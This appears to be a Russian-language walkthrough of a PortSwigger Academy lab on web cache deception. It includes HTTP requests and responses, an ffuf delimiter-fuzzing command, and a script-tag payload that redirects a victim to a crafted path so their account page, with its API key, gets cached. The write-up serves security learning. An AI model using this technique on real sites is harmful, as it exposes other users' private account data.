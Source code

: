 [Источник](https://t.me/coffee_cube)
## Scope

[ссылка на лабу](https://portswigger.net/web-security/learning-paths/web-cache-deception/wcd-using-normalization-discrepancies/web-cache-deception/lab-wcd-exploiting-cache-server-normalization#)

```
https://0a1a004203e3db3880ab21a700c90051.web-security-academy.net/
```

Для прохождения лабы нужно найти `API` ключи пользователя `carlos` с помощью [[Web cache deception]]. 

Для входа в свою учетную запись можно использовать креды `wiener`:`peter`.

## Notes

Зайдем в личный кабинет. Попробуем посмотреть, какие ресурсы кэширует веб сервер. Нашел запрос к статическому ресурсы, который кэшируется:

```HTTP
GET /resources/js/tracking.js HTTP/2
Host: 0a1a004203e3db3880ab21a700c90051.web-security-academy.net
Cookie: session=OLj3BzuRT25z8Ym7ZCblnYtZSkNcockE
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a1a004203e3db3880ab21a700c90051.web-security-academy.net/
Sec-Fetch-Dest: script
Sec-Fetch-Mode: no-cors
Sec-Fetch-Site: same-origin
Te: trailers
```

Ответ:

```HTTP
HTTP/2 200 OK
Content-Type: application/javascript; charset=utf-8
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 0
X-Cache: miss
Content-Length: 70

document.write('<img src="/resources/images/tracker.gif?page=post">');
```

Попробую найти примерное правило кэширования. Для этого заменю `tracking.js` на рандомный символы. Если ответ будет кэширован, значит правило кэширует ресурсы по статическому пути:

```HTTP
HTTP/2 404 Not Found
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 0
X-Cache: miss
Content-Length: 11

"Not Found"
```

Я получил `404`, но ответ был кэшировался. А значит файлы в `/resourses` - кэшируюется. Посмотрю нормализацию пути. Для этого добавлю `/aaa/..%2f` в начало `/aaaa/..%2fresources/js/tracking.js`:

```HTTP
HTTP/2 404 Not Found
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 0
X-Cache: miss
Content-Length: 11

"Not Found"
```

Ответ так же кэшировался. Попробую добавить `/aaaa/..%2f` после пути `/resources`: `/resources/aaaa/..%2fjs/tracking.js`.

```HTTP
HTTP/2 404 Not Found
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 0
X-Cache: miss
Content-Length: 11

"Not Found"
```

Ответ все равно кэшировался. Значит путь преобразовался к нормальному виду до кэширования.

Теперь посмотрю то, как нормализуется путь к динамическим ресурсам. Для этого буду работать с запросом к `/my-account`:

```HTTP
GET /my-account HTTP/2
Host: 0a1a004203e3db3880ab21a700c90051.web-security-academy.net
Cookie: session=OLj3BzuRT25z8Ym7ZCblnYtZSkNcockE
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a1a004203e3db3880ab21a700c90051.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```

Попробую добавить рандомные символы к пути: `/my-account/aaaa`:

```HTTP
HTTP/2 404 Not Found
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 11

"Not Found"
```

Значит такой способ не подходит. Попробую добавить `/aaa/..%2f` к началу пути:

```HTTP
HTTP/2 404 Not Found
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 11

"Not Found"
```

Все еще не то( Хмм... А если наоборот подставить в конец? `/my-account%2f%2e%2e%2aaaa`

```HTTP
HTTP/2 404 Not Found
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 11

"Not Found"
```

Тоска( Видимо путь на сервере не нормализуется. Попробую добавить `/resourses` к пути динамического ресурса. Посмотрю, какие разделители обрабатывает сервер. Для этого использую `ffuf`. В целом, это можно сделать и в `Burp`, но я хочу так)

```bash
 ffuf -u https://0a1a004203e3db3880ab21a700c90051.web-security-academy.net/my-accountFUZZaaa \
 -w wordlists/webcache_delimeters.txt
```

Вывод:

```bash
%                       [Status: 500, Size: 21, Words: 3, Lines: 1, Duration: 91ms]
?                       [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 165ms]
#                       [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 171ms]
%23                     [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 176ms]
/                       [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 136ms]
%2F   3                 [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 65ms]
%3F                     [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 81ms]
%00                     [Status: 500, Size: 21, Words: 3, Lines: 1, Duration: 72ms]
```

В качестве разделителя сервер принимает `%`, `?`, `#`, `/` и `%00`.  Я знаю, что путь к кэшируемы ресурсам нормализуется до кэширования, поэтому путь следующего формата должен кэшироваться `/my-account#%2f..%2fresourses`. Проверю это:

```HTTP
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 0
X-Cache: miss
Content-Length: 3866

...

```

Сработало. Теперь нужно скрафтить пейлоад. Для пейлоада буду использовать URL `https://0a1a004203e3db3880ab21a700c90051.web-security-academy.net/my-account#%2f..%2fresources/pwned`. В качестве файла с нагрузкой использую `HTML`:

```XML
<script>document.location="https://0a1a004203e3db3880ab21a700c90051.web-security-academy.net/my-account#%2f..%2fresources/pwned"</script>
```

![https://github.com/Cu63/writeups/tree/main/images/Pasted%20image%2020250222195110.png]

Это не сработало. А почему? Попробую закодировать символы - это не помогло...

Прошел час. Была выпита одна чашка кофе. Я решил попробовать написать `html` полностью. И о чудо, оно сработало...

![[Pasted image 20250222212036.png]]

Долгожданный `API-key`:

![[Pasted image 20250222211820.png]]

Мда уж. Иногда стоит взять перерыв. А лаба решена:

![[Pasted image 20250222212135.png]]
